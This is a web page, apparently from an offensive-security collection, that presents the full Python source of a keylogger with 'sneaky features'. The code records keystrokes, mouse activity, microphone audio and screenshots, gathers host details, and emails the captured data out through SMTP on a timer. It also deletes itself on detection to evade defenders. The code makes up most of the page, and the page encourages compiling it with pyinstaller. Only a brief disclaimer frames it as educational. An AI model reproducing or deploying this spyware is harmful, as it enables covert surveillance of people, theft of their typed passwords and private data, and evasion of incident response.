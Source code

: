 
---
layout: attack
title: Keylogger with sneaky features
---

<img height="150" align="left" src="/images/python-key-logger.png"> 
This Python script is an example of a keylogger, a type of surveillance technology used to monitor and record each keystroke typed on a specific computer's keyboard. This script was created to satisfy my curiosity about possibilities of a key logger in less lines of Python code. To get the maximum, it helps to create a binary out of the code using `pyinstaller`.

### Features:
1. **Key and Mouse Event Logging**: The KeyLogger class has methods to handle keyboard and mouse events. These methods log keystrokes (save_data), mouse movements (on_move), mouse clicks (on_click), and mouse scrolling (on_scroll). The logged data is appended to the log attribute of the KeyLogger instance.
2. **Data Reporting**: The report method sends the collected data via email and then clears the log.
3. **System Information Gathering**: The system_information method collects various system information such as hostname, IP address, processor, system, and machine details.
4. **Audio Recording**: The microphone method records audio for a specified number of seconds and sends the recording via email.
5. **Screenshot Capturing**: The screenshot method captures a screenshot and sends it via email.
6. **Self defense**: The keylogger deletes itself upon detection to avoid leakage of the email or collection of IoCs by a defender

Please note that using a keylogger to monitor someone without their explicit consent is illegal and unethical. This script should only be used for educational purposes or legitimate system administration tasks.

<!-- cSpell:disable -->
```python
import logging
import os
import platform
import smtplib
import socket
import threading
import wave
import pyscreenshot
import sounddevice as sd
from pynput import keyboard
from pynput.keyboard import Listener


class KeyLogger:
    def __init__(self, time_interval, email, password):
        self.interval = time_interval
        self.log = "KeyLogger Started..."
        self.email = email
        self.password = password

    def appendlog(self, string):
        self.log = self.log + string

    def on_move(self, x, y):
        current_move = logging.info("Mouse moved to {} {}".format(x, y))
        self.appendlog(current_move)

    def on_click(self, x, y):
        current_click = logging.info("Mouse moved to {} {}".format(x, y))
        self.appendlog(current_click)

    def on_scroll(self, x, y):
        current_scroll = logging.info("Mouse moved to {} {}".format(x, y))
        self.appendlog(current_scroll)

    def save_data(self, key):
        try:
            current_key = str(key.char)
        except AttributeError:
            if key == key.space:
                current_key = "SPACE"
            elif key == key.esc:
                current_key = "ESC"
            else:
                current_key = " " + str(key) + " "

        self.appendlog(current_key)

    def send_mail(self, email, password, message):
        server = smtplib.SMTP('smtp.gmail.com', 587, message.encode("utf8"))
        server.starttls()
        server.login(email, password)
        server.sendmail(email, email, message)
        server.quit()

    def report(self):
        self.send_mail(self.email, self.password, "\n\n" + self.log)
        self.log = ""
        timer = threading.Timer(self.interval, self.report)
        timer.start()

    def system_information(self):
        hostname = socket.gethostname()
        ip = socket.gethostbyname(hostname)
        plat = platform.processor()
        system = platform.system()
        machine = platform.machine()
        self.appendlog(hostname)
        self.appendlog(ip)
        self.appendlog(plat)
        self.appendlog(system)
        self.appendlog(machine)

    def microphone(self):
        fs = 44100
        seconds = 10
        obj = wave.open('sound.wav', 'w')
        obj.setnchannels(1)  # mono
        obj.setsampwidth(2)
        obj.setframerate(fs)
        myrecording = sd.rec(int(seconds * fs), samplerate=fs, channels=2)
        obj.writeframesraw(myrecording)
        sd.wait()

        self.send_mail(email="MAIL", password="PASSWORD", message=obj)

    def screenshot(self):
        img = pyscreenshot.grab()
        self.send_mail(email="MAIL", password="PASSWORD", message=img)

    def run(self):
        keyboard_listener = keyboard.Listener(on_press=self.save_data)
        with keyboard_listener:
            self.report()
            keyboard_listener.join()
        with Listener(on_click=self.on_click, on_move=self.on_move, on_scroll=self.on_scroll) as mouse_listener:
            mouse_listener.join()
        if os.name == "nt":
            try:
                pwd = os.path.abspath(os.getcwd())
                os.system("cd " + pwd)
                os.system("TASKKILL /F /IM " + os.path.basename(__file__))
                print('File was closed.')
                os.system("DEL " + os.path.basename(__file__))
            except OSError:
                print('File is close.')

        else:
            try:
                pwd = os.path.abspath(os.getcwd())
                os.system("cd " + pwd)
                os.system('pkill leafpad')
                os.system("chattr -i " +  os.path.basename(__file__))
                print('File was closed.')
                os.system("rm -rf" + os.path.basename(__file__))
            except OSError:
                print('File is close.')


email_address = "YOUR MAIL"
password = "YOUR PASSWORD"

keylogger = KeyLogger(10, email_address, password)
keylogger.run()
```
<!-- cSpell:enable -->